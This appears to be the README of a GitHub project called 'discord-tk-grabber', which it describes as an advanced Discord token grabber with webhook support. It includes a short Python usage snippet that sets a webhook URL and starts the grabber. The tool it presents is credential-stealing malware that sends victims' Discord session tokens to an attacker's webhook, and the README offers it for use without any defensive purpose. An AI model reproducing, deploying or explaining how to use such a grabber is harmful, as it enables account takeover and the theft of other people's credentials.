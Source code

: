 # discord-tk-grabber
Advanced discord token grabber (with webhook support)

# basic usage
```python
grabber = Grabber()
grabber.add_webhook('webhook URL here')
grabber.start()

```
